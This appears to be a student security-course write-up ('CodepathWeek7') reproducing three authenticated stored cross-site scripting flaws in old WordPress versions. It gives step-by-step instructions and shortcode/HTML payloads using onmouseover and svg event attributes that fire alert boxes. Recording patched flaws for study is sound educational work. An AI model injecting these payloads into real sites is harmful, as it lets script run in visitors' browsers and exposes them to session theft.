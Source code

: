 # CodepathWeek7
Summary:Authenticated Stored Cross-Site Scripting (XSS)

    Vulnerability types: XSS
    Tested in version: 4.1
    Fixed in version: 4.2.3
<a href="https://imgflip.com/gif/2lwcgi"><img src="https://i.imgflip.com/2lwcgi.gif" title="made at imgflip.com"/></a>

Steps to recreate:
1. Gain access to an account 
2. Either create a new page/post or modify an existing one.
3. Use the HTML editor to insert code similar to the following and post:

#<a href="[caption code=">]</a><a title=" <Event-attribute-with-JS-code-here>  ">My link</a>
For my example the code is:
#<a href="[caption code=">]</a><a title=" onmouseover=alert('XSS!')  ">Link</a>
When the post/page is opened and a user mouses over this (fake) link, the browser shows an alert box with the word "XSS."


Summary:Authenticated Shortcode Tags Cross-Site Scripting (XSS)

    Vulnerability types: XSS
    Tested in version: 4.0
    Fixed in version: 4.3.1

<a href="https://imgflip.com/gif/2lwct8"><img src="https://i.imgflip.com/2lwct8.gif" title="made at imgflip.com"/></a>

Steps to recreate:
1. Gain access to an account 
2. Either create a new page/post or modify an existing one.
3. Use the HTML editor to insert code similar to the following and post:

If an attacker puts in the following:

#[caption width="1" caption='<a href="' ">]</a><a href=" onmouseover='alert("XSS!")' ">Click me!</a>

WP processes this to become:

#<figcaption class="wp-caption-text"><a href="</figcaption></figure></a><a href=" onmouseover='alert("XSS!")' ">Click me</a>
Like the last vulnerability, when the post/page is opened and a user mouses over this (fake) link, the browser shows an alert box with the word "XSS."

Summary:Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds

    Vulnerability types: XSS
    Tested in version: 4.0
    Fixed in version: 4.7.3
 <a href="https://imgflip.com/gif/2lwd5d"><img src="https://i.imgflip.com/2lwd5d.gif" title="made at imgflip.com"/></a>

Steps to recreate:
1. Gain access to an account 
2. Either create a new page/post or modify an existing one.
3. Use the HTML editor to insert code similar to the following and post-vulnerability through the use of an embed shortcode:

 #[embed src='https://www.youtube.com/embed/12345\x3csvg <Event-attribute-with-JS-code-here>\x3e'][/embed]

which WP processes to:

#<p>https://youtube.com/watch?v=12345<svg <Event-attribute-with-JS-code-here>></p>
Here we demonstrate the vulnerability through the use of an embed shortcode:

